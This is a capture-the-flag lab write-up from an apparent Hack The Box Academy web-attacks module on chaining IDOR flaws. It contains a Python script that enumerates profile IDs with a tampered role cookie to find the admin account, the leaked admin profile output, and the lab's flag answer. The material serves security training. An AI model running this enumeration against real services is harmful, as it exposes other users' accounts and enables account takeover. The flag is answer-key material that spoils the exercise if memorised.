


# Section 11: Chaining IDOR Vulnerabilities

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Context:
- Emunerating which uid is the admin:
```python
import requests

TARGET_URL = "http://154.57.164.82:30867/profile/api.php/profile/"

for i in range(1, 21):
    res = requests.get(f"{TARGET_URL}{i}", cookies={"role": "employee"})

    if '"role":"employee"' not in res.text:
        print(res.text)
```
- Got the admin account:
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-firqpqxx8o-htb-cloud-com]─[~]
└──╼ [★]$ python3 ./emunerating.py 
{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"admin@employees.htb","about":"Never gonna give you up, Never gonna let you down"}
```
- Use Burp Suite to change the email of the admin:

- Check the `edit profile` page to get the flag:


**Answer:** `HTB{1_4m_4n_1d0r_m4573r}`

---

[Back to Module Index](./README.md)
